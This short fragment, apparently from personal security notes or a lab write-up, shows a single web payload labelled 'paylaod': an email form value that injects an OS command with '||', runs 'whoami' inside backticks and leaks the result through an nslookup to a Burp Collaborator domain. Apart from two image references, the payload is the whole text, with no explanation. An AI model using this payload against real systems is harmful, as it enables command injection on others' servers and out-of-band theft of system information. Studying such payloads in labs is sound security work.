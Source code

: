 paylaod:

```javascript
email=||nslookup+`whoami`.v1xy0bp4o5uze23z9tjm4o2pzg56tv.burpcollaborator.net+||
```



![](images/C3A6A429791B479B85F439E0D0A3C688clipboard.png)

